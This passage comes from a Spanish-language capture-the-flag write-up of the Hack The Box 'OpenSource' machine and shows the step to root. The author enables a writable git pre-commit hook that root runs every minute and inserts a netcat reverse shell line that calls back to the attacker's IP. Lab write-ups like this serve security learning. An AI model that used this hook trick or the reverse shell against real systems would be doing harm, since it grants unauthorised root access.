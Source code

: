 > To enable this hook, **rename this file** to "`pre-commit`".

Y puede ser activado (o sea, que cada que se haga un `commit` sea llamado) simplemente quitando el **.sample** del nombre. 

Jm, esto hace que exista la posibilidad de que cada vez que `root` ejecute `/usr/local/bin/git-sync` y haga el **commit** pueda llegar a este objeto y ejecutarlo, ¿no? Y si le sumamos que tenemos permisos de escritura, pues... ¿Se entiende?

Modificamos nombre del archivo `.sample`:

```bash
dev01@opensource:~/.git/hooks$ mv pre-commit.sample pre-commit
```

Y si nos fijamos en el resultado de `pspy` notamoooooooooos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/opensource/471bash_dev01SH_pspy_preCOMMIT.png" style="width: 100%;"/>

SE EJECUTA EL SCRIPTTTTTTTT! Así que lo único que debemos hacer es modificarlo con alguna línea juguetona y sería ejecutada como el usuario `root`, de una hagamos una reverse shell:

Levantamos servidor:

```bash
❱ nc -lvp 4433
listening on [any] 4433 ...
```

Y agregamos nuestra línea al archivo (:

```bash
#!/bin/sh
#
# An example hook script to verify what is about to be committed.
# Called by "git commit" with no arguments.  The hook should
# exit with non-zero status after issuing an appropriate message if
# it wants to stop the commit.
#
# To enable this hook, rename this file to "pre-commit".

rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.115 4433 >/tmp/f
...
```

YyyyyYyyyyyYYYYYy si esperamos un momento a que la tarea se ejecute (con ayuda del **pspy** sabemos que es cada minuto) vemos en nuestro serveeeeer:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/opensource/471bash_rootRevSH.png" style="width: 100%;"/>

Tenemos una consola como el usuario `root`, [la hacemos que sea bonita](https://lanzt.gitbook.io/cheatsheet-pentest/tty) y vemos las flags:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/opensource/471flags.png" style="width: 100%;"/>

Y listos nos vaaaaamos!

...

Una interesante máquina, el path hacia el user fue lindo lindo y el jugueteo con `git` me gusto también, así que perfecto!

Pues nos charlamos otro día, pero ojo, a seguir rompiendoooooo de todoooooo!